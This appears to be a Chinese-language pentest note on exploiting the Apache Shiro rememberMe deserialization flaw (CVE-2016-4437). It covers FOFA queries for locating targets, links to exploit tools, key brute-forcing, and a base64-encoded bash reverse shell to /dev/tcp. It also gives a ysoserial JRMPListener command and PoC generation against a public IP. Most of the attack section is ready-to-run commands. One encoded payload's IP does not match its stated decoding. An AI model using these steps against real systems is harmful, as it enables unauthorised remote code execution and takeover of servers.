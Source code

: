 # Shiro

## 历史发现

> fofa搜索语法
>
> header="rememberme=deleteMe"
>
> header="shiroCookie"

## Shiro漏洞检测工具

> https://github.com/fupinglee/ShiroScan
> https://github.com/sv3nbeast/ShiroScan
> https://github.com/insightglacier/Shiro_exploit
> https://github.com/Ares-X/shiro-exploit

## Shiro历史漏洞利用

### Shiro反序列化远程代码执行漏洞（CVE-2016-4437）

> 影响版本
>
> Apache Shiro <= 1.2.4

### 利用组件

`org.apache.commons`中的`commons-collections4`(理论上`commons-collections2`也有)

### 漏洞原因

`shiro`默认使用了`CookieRememberMeManager`，其处理`cookie`的流程是：

`得到 rememberMe的cookie值` –> `Base64解码` –> `AES解密` –> `反序列化` 。

### 利用位置

任意http请求中`cookie`处`rememberMe`参数

### Payload构造

`前16字节的密钥`->`后面加入序列化参数`->`AES加密`->`base64编码`->`发送cookie`

## 利用步骤

![image-20221201202305148](C:\Users\86135\AppData\Roaming\Typora\typora-user-images\image-20221201202305148.png)

1. 输入账号密码，点击Remember me，抓包。

   查看返回包中的`Set-Cookie: rememberMe=deleteMe;`字段。确定为shiro组件。

2. 爆破key（文件在`Shiro_exploit-master`文件夹下）

   ```
   python2 shiro_exploit.py -u http://192.168.1.108:8080/doLogin
   ```

   得到key后，在`shiro.py`文件中将密钥改为这个脚本爆破出来的密钥。

3. 选定一个端口进行反弹shell

   ```bash
   nc -lvvp 9999
   ```

   反弹shell

   ```bash
   bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzE5Mi4xNjguMS4xMDYvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}
   
   YmFzaCAtaSA+Ji9kZXYvdGNwLzE5Mi4xNjguMS4xMDUvOTk5OSAwPiYx为 bash -i >&/dev/tcp/192.168.1.105/9999 0>&1 加密结果
   ```

4. 使用`ysoserial`反序列化工具监听1099端口

   ```bash
   java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 1099 CommonsBeanutils1 "bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzE5Mi4xNjguMS4xMDUvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}"
   ```

5. 利用`shiro.py`进行生成poc

   ```bash
   python2 shiro.py 101.200.236.51:1099
   
   #IP填yesoerial监听的机器的IP和端口
   ```

6. 把生成的poc放置数据包中的cookie字段中使用；放在rememberMe后面。

7. nc监听端口反弹到shell。

